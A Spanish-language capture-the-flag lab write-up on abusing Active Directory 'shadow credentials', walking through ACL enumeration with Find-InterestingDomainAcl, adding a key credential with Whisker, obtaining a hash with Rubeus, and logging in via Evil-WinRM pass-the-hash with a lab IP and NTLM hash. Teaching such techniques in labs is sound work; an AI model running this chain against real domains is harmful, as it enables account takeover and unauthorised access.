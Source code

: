 El comando completo quedaría:

```ps1
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

![enum](img/3.png)

El usuario cuenta con el permiso `GenericWrite`, esto nos va a servir luego para actualizar el valor de `msDS-KeyCredentialLink`. Esta vulnerabilidad de la conoce como *shadow credentials*.

Algo a tener en cuenta es que el usuario vulnerable no necesariamente es el administrador.

### Explotación mediante Whisker, Rubeus y Evil-WinRM

Como vimos en el apartado correspondiente, vamos a utilizar Whisker de la siguiente manera:

```ps1
.\Whisker.exe add /target:vansprinkles
```

Y obtenemos:

![whisker](img/4.png)

Procedemos a ejecutar Rubeus como nos indica el output y obtenemos:

![rubeus](img/5.png)

Ya con el hash ejecutamos Evil-WinRM desde la AttackBox Linux de la siguiente manera:

```bash
evil-winrm -i 10.10.144.51 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

Y vemos que ya tenemos acceso remotamente:

![evil-winrm](img/6.png)

Nos movemos por el sistema y obtenemos la flag:

![flag](img/7.png)

### Respuesta

<details><summary>Spoiler</summary></details>

### [Volver a inicio](../../README.md)
